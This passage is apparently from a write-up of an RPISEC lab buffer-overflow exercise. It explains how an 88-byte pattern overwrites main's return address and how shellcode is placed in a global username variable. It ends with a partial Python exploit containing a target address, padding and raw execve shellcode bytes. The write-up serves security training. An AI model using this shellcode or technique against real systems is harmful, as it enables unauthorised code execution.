
We can notice that after 88 bytes of the pattern the return address of main is overwritten. 

```
AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIIIIIIIJJJJJJJJKKKKKKKKLLLLLLLLMMMMMMMMNNNNNNNN
|			88 bytes is stored in variable				       ||  this is overflowed  |       
|______________________________________________________________________________________||______________________|
```

We have our buffer-overflow!


### Shellcode time


There came a time when I tried to put some shellcodes after the return address of the main function but I didn't achieve anything. I was stuck for a while trying different ways and nothing.

Until I asked for help and received tips on a better path to follow.

In the source code, the variable that stores the username is outside the scope of the functions, that is, it is in the global scope. This means that it is in the .data section of the binary and not in the .text section where it is the executable area.

With this we can know that the username variable will not be stored in the stack, but the password variable will. So the tip I received was to store the shellcode in the username variable and overwrite the return address in the password variable. To then "get" the shellcode in the username variable and thus execute it.


### Let's go

If we look at the disassembly of the main function we see that the address of the username variable is referenced before being passed to the **fgets** function and then to the **verify_user_name** function.

<div class="col-sm mt-3 mt-md-0">
   {% include figure.liquid loading="eager" path="assets/img/usrnmvar1.png" class="img-fluid rounded z-depth-1" zoomable=true %}
</div>


And checking the variable's memory we see the string "rpisec".

<div class="col-sm mt-3 mt-md-0">
   {% include figure.liquid loading="eager" path="assets/img/usrnmvar2.png" width="500" height="500" class="img-fluid rounded z-depth-1" zoomable=true %}
</div>


Now knowing the address of the username variable and also how to overwrite the return address, let's write our exploit...


```py
import struct

name = b"rpisec"

# addr a_user_name var that store username + 6 bytes to the shellcode addr
nameaddr = 0x555555558086

# 88 bytes to overflow
pattern = b"AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIIIIIIIJJJJJJJJKKKKKKKK"

shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

nm = struct.pack('<Q', nameaddr)
```